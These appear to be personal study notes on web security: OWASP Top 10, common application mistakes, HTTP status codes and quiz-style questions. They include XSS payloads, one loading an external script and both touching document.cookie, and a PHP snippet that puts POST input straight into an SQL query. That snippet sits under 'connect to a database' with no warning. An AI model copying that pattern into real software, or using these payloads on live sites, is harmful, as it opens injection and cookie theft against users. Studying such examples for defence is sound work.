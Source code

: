 ## The most common mistakes in applications:
    1. 	Permitting Invalid Data to Enter the Database
    2. 	Focusing on the System as a Whole
    3. 	Establishing Personally Developed Security Methods
    4. 	Treating Security to be Your Last Step
    5. 	Developing Plain Text Password Storage
    6. 	Creating Weak Passwords
    7. 	Storing Unencrypted Data in the Database
    8. 	Depending Excessively on the Client Side
    9. 	Being Too Optimistic
    10. 	Permitting Variables via the URL Path Name
    11. 	Trusting third-party code
    12. 	Hard-coding backdoor accounts
    13. 	Unverified SQL injections
    14. 	Remote file inclusions
    15. 	Insecure data handling
    16. 	Failing to encrypt data properly
    17. 	Not using a secure cryptographic system
    18. 	Ignoring layer 8
    19. 	Review user actions
    20. 	Web Application Firewall misconfigurations

## OWASP 10
    1. 	Injection
    2. 	Broken Authentication
    3. 	Sensitive Data Exposure
    4. 	XML External Entities (XXE)
    5. 	Broken Access Control
    6. 	Security Misconfiguration
    7. 	Cross-Site Scripting (XSS)
    8. 	Insecure Deserialization
    9. 	Using Components with Known Vulnerabilities
    10. 	Insufficient Logging & Monitoring

How can an html injection look like?
```html
><img src=/ onerror=alert(document.cookie)>

// or
"><script src=//www.example.com/exploit.js></script>
```

[OWASP cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

## Common web errors:

    Successful responses 	
    200 OK 	The request has succeeded
    201 Created
    Redirection messages 	
    301 Moved Permanently 	The URL of the requested resource has been changed permanently
    302 Found 	The URL of the requested resource has been changed temporarily
    Client error responses 	
    400 Bad Request 	The server could not understand the request due to invalid syntax
    401 Unauthorized 	Unauthenticated attempt to access page
    403 Forbidden 	The client does not have access rights to the content
    404 Not Found 	The server can not find the requested resource
    405 Method Not Allowed 	The request method is known by the server but has been disabled and cannot be used
    408 Request Timeout 	This response is sent on an idle connection by some servers, even without any previous request by the client
    Server error responses 	
    500 Internal Server Error 	The server has encountered a situation it doesn't know how to handle
    502 Bad Gateway 	The server, while working as a gateway to get a response needed to handle the request, received an invalid response
    504 Gateway Timeout 	The server is acting as a gateway and cannot get a response in time

Wht curl flag do you use to also get server responses? 
`-I`

How do you connect to a database using php?
```php
$conn = new mysqli("localhost", "user", "pass");

# Create
$sql = "CREATE DATABASE database1";
$conn->query($sql)

# query
$conn = new mysqli("localhost", "user", "pass", "database1");
$query = "select * from table_1";
$result = $conn->query($query);

# Query
$searchInput =  $_POST['findUser'];
$query = "select * from users where name like '%$searchInput%'";
$result = $conn->query($query);

# response back:
while($row = $result->fetch_assoc() ){
	echo $row["name"]."<br>";
}

```

`SOAP` is commonly used to transfer structured data

What does `REST` stand for? `Representational State Transfer`

What pice can you add to url to get users?
`/index.php?id=0`

How can an sql injection look like using php?
```php
$query = "select * from users where name like '%$searchInput%'";
```


Where can you find a voulnerability library for wordpress?
[Here](https://www.rapid7.com/db/?q=wordpress&type=nexpose)

What is the severity rating for a voulerability called?
`CVSS V3.0 or V2.0`

